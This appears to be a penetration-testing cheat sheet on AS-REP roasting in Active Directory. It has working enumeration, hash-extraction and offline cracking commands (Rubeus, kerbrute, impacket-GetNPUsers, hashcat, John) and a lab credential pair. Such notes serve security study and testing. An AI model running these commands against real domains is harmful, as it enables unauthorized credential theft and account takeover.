

### Content
- [ASREPRoasting](#asreproasting)
- [ASREPRoasting from Windows](#asreproasting-from-windows)
- [ASREPRoasting from Linux](#asreproasting-from-linux)
- [Crack krb5asrep](#crack-krb5asrep)
---
## ASREPRoasting

- It's possible to obtain the (TGT) for any account that has the [Do not require Kerberos pre-authentication](https://www.tenable.com/blog/how-to-stop-the-kerberos-pre-authentication-attack-in-active-directory) setting enabled.
- The authentication service reply (AS_REP) is encrypted with the account’s password, and any domain user can request it.

If an account has pre-authentication disabled, an attacker can request authentication data for the affected account and retrieve an encrypted TGT from the Domain Controller. This can be subjected to an offline password attack using a tool such as Hashcat or John the Ripper.

Ex:


---
## ASREPRoasting from Windows

```Powershell
# ActiverDirectory:
PS C:\> Get-ADUser -Filter { (UserAccountControl -band 4194304) -and (Enabled -eq $true) } -Properties * | Select SamAccountName,userAccountControl,userprincipalname | fl

# Decode the userAccountControl in https://www.techjutsu.com/uac-decoder

# PowerView:
PS C:\> Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl

# Retrieving AS-REP in Proper Format using Rubeus
PS C:\> .\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
```

---
## ASREPRoasting from Linux


```bash 
# When performing user enumeration with Kerbrute, the tool will automatically retrieve the AS-REP for any users found that do not require Kerberos pre-authentication.
$ kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt

# With a list of valid users, we can use Get-NPUsers
$ impacket-GetNPUsers INLANEFREIGHT.LOCAL/  -usersfile users.txt -format hashcat -dc-ip 172.16.5.5 -outputfile out.txt
# We can use wordlist into the tool, it will throw errors for users that do not exist, but if it finds any valid ones without Kerberos pre-authentication

# We can use Get-NPUsers from authenticated point of view
$ impacket-GetNPUsers INLANEFREIGHT.LOCAL/forend:Klmcargo2  -request  -dc-ip 172.16.5.5 -outputfile out.txt
```
---
## Crack krb5asrep

```bash
# Hashcat
$ hashcat -m 18200 toCrack.txt /usr/share/wordlists/rockyou.txt 

# John
$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=krb5asrep toCrack.txt
```